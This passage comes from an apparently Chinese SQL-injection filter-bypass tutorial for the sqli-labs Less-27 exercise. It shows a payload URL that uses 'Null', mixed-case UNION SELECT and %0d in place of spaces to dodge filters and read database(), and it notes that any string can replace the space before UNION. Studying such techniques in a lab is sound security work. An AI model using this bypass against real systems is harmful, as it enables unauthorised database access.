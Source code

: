 Null也可以作为union前面空格的省略工具

```sql
http://d16.s.iproute.cn/Less-27/?id=Null'unIOn%0dseLEct(1),(database()),(3)%0d||'1
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675395732552-4d4e08b4-6fe6-4715-9404-f6df618da9c0.png)

任意一个字符串，包括数字字符串都可以作为union前面的省略工具

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675395757278-76ca2c86-b5be-46b4-b18b-eb3c8aa8532e.png)
